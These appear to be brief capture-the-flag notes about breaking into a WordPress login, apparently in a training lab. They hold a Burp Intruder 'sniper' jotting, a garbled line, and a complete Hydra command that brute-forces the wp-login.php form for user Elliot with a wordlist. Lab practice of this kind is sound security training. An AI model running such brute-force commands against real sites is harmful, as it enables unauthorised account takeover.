 #intruder sniper
-later la males

#hydra
hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30 